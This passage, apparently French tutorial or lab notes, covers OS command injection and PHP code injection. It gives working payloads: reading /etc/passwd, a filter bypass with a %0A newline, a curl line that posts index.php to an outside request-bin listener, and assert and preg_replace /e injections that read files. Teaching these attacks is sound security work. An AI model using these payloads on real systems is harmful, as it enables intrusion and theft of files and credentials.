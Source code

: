     google.fr;cat /etc/passwd

Un niveau de sécurité supplémentaire sur ce type de saisie consiste en un filtre évitant d'injecter dictement sa commande. Pour contourner cela il faut commencer par trouver quelles commandes fonctionne via un bruteforce et un [dictionnaire d'ensemble de commande](https://github.com/ismailtasdelen/command-injection-payload-list).

A partir de là avec BurpSuite:
1. Intercetpion de la trame avec la saisie de l'adresse (mettons `127.0.0.1`)
2. Via le module `intruder`de Burpsuite, nous positionnons un argument pour le bruteforce `ip=127.0.0.1§arg§`
3. Pour le payload, nous sélectionnons les commandes Unix et on observe parmi les résultats avec quoi il se passe quelquechose. Admettons que ce soit `%0A`
4. Nous allons par exemple utilisé ce byte pour enchainer une commande envoyant le fichier `index.php` sur request.bin sur lequel nous avons configurer un listener
5. Pour cela, via le module `repeater` de BurpSuite, modifier la requête comme suit:

    127.0.0.1%0Acurl -X POST -d @index.php https://enp9ldekp28gk.x.pipedream.net

### Injection de code
Fonction | Description 
:- |:-
eval| Exécute une chaîne comme un script PHP
assert| Vérifie si une assertion est fausse
preg_replace| Rechercher et remplacer par expression rationnelle standard. `('/.*/e',...)` Avec `/e` interprète la chaîne de remplacement en PHP
create_function| Crée une fonction anonyme. Obsolète depuis PHP 7.2
`$_GET['func_name']($_GET['argument']);`| Passer une fonction et argument via URL
ReflectionFunction | `$func = new ReflectionFunction($_GET['func_name']); $func->invoke(); or $func->invokeArgs(array());`

Il est possible de détecter la présence d'un `assert` sur la valeur d'une variable en la remplaçant par une quote `%27`, ce qui devrait amener une erreur explicite.
A partir de là, il devient possible d'injecter du code pour afficher les infos PHP ou afficher un fichier `.passwd` par exemple:

    ?var=%27.phpinfo().%27
    ?var=%27.highlight_file(%22.passwd%22).%27

Concernant la fonction `preg_replace`, l'utilsation de `/e` permet d'éxécuter une commande. L'OWASP nous indique [ici](https://www.owasp.org/index.php/PHP_Security_Cheat_Sheet) qu'il est possible donc d'exploiter cette fonction pour exécuter une commande :

    preg_replace("/.*/e","system(’echo /etc/passwd’)") ;

avec 

    search => /.*/e 
    replace => echo /etc/passwd
    content => peu importe

Pour se prémunir il faut donc bloquer la fonction `system`. Cette protection peut être contournée en utilisant une fonction qui va faire la même chose, ici:

    search => /.*/e 
    replace => file_get_contents("index.php")
    content => peu importe  
